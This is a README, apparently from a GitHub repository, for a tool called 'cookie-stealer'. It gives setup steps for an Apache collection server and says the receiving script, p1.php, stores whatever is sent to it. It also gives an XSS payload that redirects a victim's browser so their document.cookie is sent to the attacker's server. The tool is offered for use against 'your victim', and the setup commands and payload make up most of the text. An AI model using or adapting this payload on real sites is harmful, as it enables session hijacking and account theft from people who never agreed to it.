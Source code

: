 # cookie-stealer
Cookie Stealer in some languages

## usage
#### step1 - start web server on your own web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache 2
```

#### step2 
clone the repository in ``` /var/www/html/ ''' directory

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in cookie file.
example of link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal cookies of your victim:
```
<script>window.location="http://192.168.1.135/php-cookie-stealer/p1.php?txt="+document.cookie</script>
```

### p1.php
p1.php is basic version of cookie stealer that recieve and store just value of txt parameter.
